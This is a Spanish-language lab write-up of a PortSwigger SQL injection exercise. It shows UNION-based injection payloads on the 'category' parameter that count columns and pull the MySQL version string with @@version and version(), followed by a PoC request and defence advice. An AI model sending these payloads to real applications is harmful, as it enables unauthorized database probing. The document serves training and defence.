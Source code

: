 ```yaml
---

id: sqli-04
title: "SQL injection attack, querying the database type and version on MySQL and Microsoft"
category: "SQLi"
difficulty: "Practitioner"
tags: \[portswigger, sqli, mysql, mssql, union, practitioner]
date: 2025-08-17
----------------

# SQL injection attack, querying the database type and version on MySQL and Microsoft

**Categoría:** SQLi
**Dificultad:** Practitioner
**Fuente:** PortSwigger Web Security Academy

---
```


# 🎯 Resumen

* **Objetivo del lab**: Usar un ataque UNION para extraer la cadena de versión de la base de datos.
* **Vulnerabilidad principal**: SQL Injection en parámetro `category`.
* **Impacto esperado**: Exposición de información sensible de la base de datos (tipo y versión exacta).

---

# 🧭 Reconocimiento

* **Parámetro vulnerable**: `category` en `/filter`.
* **Pruebas iniciales**:

  ```http
  GET /filter?category=Gifts'              # Rompe → inyección probable
  GET /filter?category=Gifts' order by 100-- -   # Rompe → demasiadas columnas
  GET /filter?category=Gifts' order by 2-- -     # 200 OK → 2 columnas
  ```
* **Hipótesis**: Motor compatible con funciones `@@version` y `version()` (MySQL/Microsoft SQL Server).

---

# 🛠️ Explotación paso a paso

## Paso 1 – Confirmar número de columnas

* **Qué hago**: Uso `ORDER BY`.
* **Por qué funciona**: Al pedir más columnas de las reales, la query falla.
* **Evidencia**: `order by 2` funciona, por tanto hay 2 columnas.

## Paso 2 – UNION SELECT básico

* **Qué hago**: `UNION SELECT 'TEST','TEST'-- -`
* **Por qué funciona**: Si aparece en pantalla, significa que controlo la salida.
* **Evidencia**: El texto *TEST* se muestra en la web.

## Paso 3 – Extraer versión con `@@version`

* **Qué hago**:

  ```http
  GET /filter?category=Gifts' union select @@version,'TEST'-- -
  ```
* **Por qué funciona**: En MySQL y Microsoft SQL Server, `@@version` devuelve la versión de la base de datos.
* **Evidencia**: Devuelve `8.0.42-0ubuntu0.20.04.1` → confirma MySQL.

## Paso 4 – Extraer versión con `version()`

* **Qué hago**:

  ```http
  GET /filter?category=Gifts' union select version(),'TEST'-- -
  ```
* **Por qué funciona**: En MySQL existe la función `version()` que devuelve la cadena de versión.
* **Evidencia**: Devuelve la misma versión → confirmación adicional.

---

# ✅ PoC mínima

```http
GET /filter?category=Gifts' union select @@version,'TEST'-- -
Host: <lab-id>.web-security-academy.net
```

Esto muestra la versión exacta de MySQL/Microsoft SQL Server.

---

# 🔒 Defensa

* **Causas**: Concatenación de entrada del usuario sin validación.
* **Detección en logs**:

  * Parámetros que incluyen `union select`, `@@version`, `version()`
  * Errores tras `'` en parámetros de URL
* **Mitigación recomendada**:

  * Consultas parametrizadas
  * Filtrar/validar entrada
  * Restringir funciones sensibles (`@@version`, `version()`) a usuarios de administración

---

# 📝 Notas y trampas

* **MySQL vs Oracle**:

  * En MySQL se puede usar `version()` o `@@version` sin necesidad de tabla dummy.
  * En Oracle se requiere `from DUAL`.
* **Microsoft SQL Server**: también soporta `@@version` pero devuelve una cadena mucho más larga con detalles del sistema operativo.
* El espacio tras `--` es importante: `-- -` para que lo interprete correctamente.

---

# 📚 Referencias

* [PortSwigger Lab – SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/union-attacks/lab-querying-database-version-mysql)
* [MySQL Documentation – version()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_version)
* [Microsoft SQL Server – @@VERSION](https://learn.microsoft.com/en-us/sql/t-sql/functions/version-transact-sql)
* [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
